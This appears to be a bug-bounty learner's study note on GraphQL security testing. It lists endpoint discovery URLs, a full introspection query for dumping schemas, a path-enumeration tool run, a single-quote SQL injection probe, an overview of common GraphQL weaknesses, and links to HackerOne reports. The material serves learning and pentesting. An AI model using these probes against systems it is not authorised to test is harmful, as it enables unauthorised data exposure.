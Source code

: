 `4 January 2023`
## **Day 18 What I Have Learned**
***
## **GraphQL**:
- The GraphQL query language is strongly typed. Due to its strong type system, GraphQL gives you the ability to query and understand the underlying schema.
- GraphQL is a query language for your API, and a server-side runtime for executing queries using a type system you define for your data. GraphQL isn't tied to any specific database or storage engine and is instead backed by your existing code and data.
- [More](https://graphql.org/learn/).
***
## **Exploit**:
1. Identify An Injection Point
- Most of the time the graphql is located on the /graphql or /graphiql endpoint.
- example.com/graphql?query={__schema{types{name}}}
- example.com/graphiql?query={__schema{types{name}}}
2. Check If Errors Are Visible.
- ?query={__schema}.
- ?query={}
- ?query={thisdefinitelydoesnotexist}
3. Enumerate Database Schema via Introspection
- Single line query to dump the database schema without fragments.

```js
__schema{queryType{name},mutationType{name},types{kind,name,description,fields(includeDeprecated:true){name,description,args{name,description,type{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name}}}}}}}},defaultValue},type{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name}}}}}}}},isDeprecated,deprecationReason},inputFields{name,description,type{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name}}}}}}}},defaultValue},interfaces{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name}}}}}}}},enumValues(includeDeprecated:true){name,description,isDeprecated,deprecationReason,},possibleTypes{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name}}}}}}}}},directives{name,description,locations,args{name,description,type{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name}}}}}}}},defaultValue}}}
```
4. Or Use a tool
```js
git clone https://gitlab.com/dee-see/graphql-path-enum
$ graphql-path-enum -i ./test_data/h1_introspection.json -t Skill
Found 27 ways to reach the "Skill" node from the "Query" node:
- Query (assignable_teams) -> Team (audit_log_items) -> AuditLogItem (source_user) -> User (pentester_profile) -> PentesterProfile (skills) -> Skill
- Query (checklist_check) -> ChecklistCheck (checklist) -> Checklist (team) -> Team (audit_log_items) -> AuditLogItem (source_user) -> User (pentester_profile) -> PentesterProfile (skills) -> Skill
- Query (checklist_check_response) -> ChecklistCheckResponse (checklist_check) -> ChecklistCheck (checklist) -> Checklist (team) -> Team (audit_log_items) -> AuditLogItem (source_user) -> User (pentester_profile) -> PentesterProfile (skills) -> Skill
- Query (checklist_checks) -> ChecklistCheck (checklist) -> Checklist (team) -> Team (audit_log_items) -> AuditLogItem (source_user) -> User (pentester_profile) -> PentesterProfile (skills) -> Skill
- Query (clusters) -> Cluster (weaknesses) -> Weakness (critical_reports) -> TeamMemberGroupConnection (edges) -> TeamMemberGroupEdge (node) -> TeamMemberGroup (team_members) -> TeamMember (team) -> Team (audit_log_items) -> AuditLogItem (source_user) -> User (pentester_profile) -> PentesterProfile (skills) -> Skill
- Query (embedded_submission_form) -> EmbeddedSubmissionForm (team) -> Team (audit_log_items) -> AuditLogItem (source_user) -> User (pentester_profile) -> PentesterProfile (skills) -> Skill
- Query (external_program) -> ExternalProgram (team) -> Team (audit_log_items) -> AuditLogItem (source_user) -> User (pentester_profile) -> PentesterProfile (skills) -> Skill
- Query (external_programs) -> ExternalProgram (team) -> Team (audit_log_items) -> AuditLogItem (source_user) -> User (pentester_profile) -> PentesterProfile (skills) -> Skill
- Query (job_listing) -> JobListing (team) -> Team (audit_log_items) -> AuditLogItem (source_user) -> User (pentester_profile) -> PentesterProfile (skills) -> Skill
- Query (job_listings) -> JobListing (team) -> Team (audit_log_items) -> AuditLogItem (source_user) -> User (pentester_profile) -> PentesterProfile (skills) -> Skill
- Query (me) -> User (pentester_profile) -> PentesterProfile (skills) -> Skill
- Query (pentest) -> Pentest (lead_pentester) -> Pentester (user) -> User (pentester_profile) -> PentesterProfile (skills) -> Skill
- Query (pentests) -> Pentest (lead_pentester) -> Pentester (user) -> User (pentester_profile) -> PentesterProfile (skills) -> Skill
- Query (query) -> Query (assignable_teams) -> Team (audit_log_items) -> AuditLogItem (source_user) -> User (pentester_profile) -> PentesterProfile (skills) -> Skill
- Query (query) -> Query (skills) -> Skill
```
5. Extract data
- Example.com/graphql?query={TYPE_1{FIELD_1,FIELD_2}}
6. SQL injection
- Send a single quote ' inside a graphql parameter to trigger the SQL injection
``` js
{ 
    bacon(id: "1'") { 
        id, 
        type, 
        price
    }
}
```
7. [More](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/GraphQL%20Injection/README.md).

## **Attacks in GraphQL**:
1. Unauthenticated Access to GraphQL Endpoint 
- Supposed your target runs GraphQL, now as an unauthenticated user hit the following URL: 
https://your_target/graphiql
- If you are able to access the GraphQL Console, try running some schema extraction or other queries
- Alternatively you can also try to query https://your_target_url/graphql?query={query_here} 
- If you are able to extract information as an unauthenticated user, this is an issue.
2. Introspection Queries are Enabled
- A GraphQL server supports introspection over its schema using the same GraphQL query language.
- A server exposes the following introspection queries on the Query operation type.
__schema
__type
__typename
- Note that introspection queries start with __
3. GraphQL in Debug Mode
- GraphQL can be run in “debug” mode. The main feature of debug is to display detailed errors of request to aid with development. This is extremely problematic if you run your GraphQL implementation in production with debug enabled. Doing so will result in excessive errors, such as stack traces, and it exposes other sensitive information in the response, which jeopardizes not just security, but compliance adherence, too.  
4. Application Level DoS
- [Info Here](https://payatu.com/blog/manmeet/graphql-exploitation-part-4).
5. SQL Injection
- Send a single quote ' inside a graphql parameter to trigger the SQL injection.
6. IDOR
- [Info Here](https://infosecwriteups.com/graphql-idor-leads-to-information-disclosure-175eb560170d).
7. Data Exposure through Error Messages
- Instead of returning something like "Did you mean that query", it is preferable to return something along the lines of "That query doesn't exist" without providing alternatives.
- [Info Here](https://escape.tech/blog/graphql-verbose-error-suggestions/).
8. Misc. GraphQL Attacks
- [Info Here](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/graphql).
***
## **Resources**:
- [Meet Your Doctor](https://swisskyrepo.github.io/HIP19-MeetYourDoctor/).
- [GraphQL CheatSheet](https://devhints.io/graphql).
- [Design Considerations for Secure GraphQL APIs](https://bishopfox.com/blog/design-considerations-for-secure-graphql-apis).
- [GraphQL Injection](https://threatninja.net/2019/12/tutorial-on-graphql-injection/).
- [GraphQL API Pentesting](https://www.youtube.com/watch?v=Wb0BO8J7024).
## **Reports**:
- [IDOR on Program Visibilty (Revealed / Concealed) against other team members](https://hackerone.com/reports/291721).
- [Private list members disclosure via GraphQL](https://hackerone.com/reports/885539) ($2940).
- [Private information exposed through GraphQL filters](https://hackerone.com/reports/645299).
- [H1514 [beerify.shopifycloud.com] GraphQL discloses internal beer consumption](https://hackerone.com/reports/419883) ($802).'
- [GraphQL query "namespace" leaks data](https://hackerone.com/reports/614355) ($1000).
- [Private System Note Disclosure using GraphQL](https://hackerone.com/reports/633001) ($1000).
- [Confidential data of users and limited metadata of programs and reports accessible via GraphQL](https://hackerone.com/reports/489146) ($20000).
- [Disabled account can still use GraphQL endpoint](https://hackerone.com/reports/608656) ($500).
- [H1514 Get access to non public information by pivoting with graphql queries](https://hackerone.com/reports/423388) ($1500).

***
## **The End**
